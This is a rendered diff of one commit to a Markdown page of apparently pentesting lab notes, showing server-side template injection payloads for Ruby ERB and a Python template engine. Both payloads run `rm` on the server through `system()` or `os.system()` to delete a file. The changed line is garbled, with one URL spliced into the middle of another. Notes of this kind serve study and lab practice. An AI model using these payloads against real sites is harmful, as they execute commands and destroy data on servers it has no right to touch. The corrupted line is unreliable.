

Before and after one commit to B310M0R/notes, a Markdown page: useful.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/useful.md
+++ b/useful.md
@@ -583,7 +583,8 @@ Arises at View Details with reflected phrase `Unfortunately this product is out
 1. Basic server-side template injection
 Ruby
 ```
-<%= system("rm+morale.txt")https://hackerone.com/opportunities/all
+<%= system("rm+morale.txt")https://hackehttps://book.hacktricks.xyz/rone.com/opportunities/all
+```
 2. Basic server-side template injection (code context)
 ```
 blog-post-author-display=user.first_name}}{%+import+os+%}{{os.system('rm+morale.txt')}}
````
